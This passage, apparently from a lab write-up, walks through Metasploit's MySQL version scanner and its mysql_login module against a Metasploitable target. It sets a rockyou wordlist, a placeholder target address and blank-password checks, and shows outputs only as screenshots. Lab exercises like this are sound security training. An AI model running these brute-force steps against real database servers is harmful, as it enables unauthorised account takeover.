 <img width="770" height="264" alt="image" src="https://github.com/user-attachments/assets/b6da9016-7c4e-4245-a716-2e9b0a4828de" />

use the auxiliary/scanner/mysql/mysql_version module by typing the module name or associated number to scan MySQL version details.
use 11
Or:
use auxiliary/scanner/mysql/mysql_version
## OUTPUT:

<img width="782" height="274" alt="image" src="https://github.com/user-attachments/assets/034a0972-3fcf-4756-8d08-ac60a6d304ad" />

Use the set rhosts command to set the parameter and run the module, as follows:
## OUTPUT:

<img width="769" height="141" alt="image" src="https://github.com/user-attachments/assets/4a83bbc5-bb63-4068-b08b-fff37387eb0a" />


After scanning, you can also brute force MySQL root account via Metasploit's auxiliary(scanner/mysql/mysql_login) module.
## OUTPUT:


<img width="772" height="336" alt="image" src="https://github.com/user-attachments/assets/75c436e4-45c4-459e-96da-d56a4e45f7f0" />


set the PASS_FILE parameter to the wordlist path available inside /usr/share/wordlists:
set PASS_FILE /usr/share/wordlistss/rockyou.txt
Then, specify the IP address of the target machine with the RHOSTS command.
set RHOSTS <metasploitable-ip-address>
Set BLANK_PASSWORDS to true in case there is no password set for the root account.
set BLANK_PASSWORDS true
## OUTPUT:

<img width="770" height="263" alt="image" src="https://github.com/user-attachments/assets/1a59b149-8ea9-4dd3-a5d9-0379d2e8c820" />

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
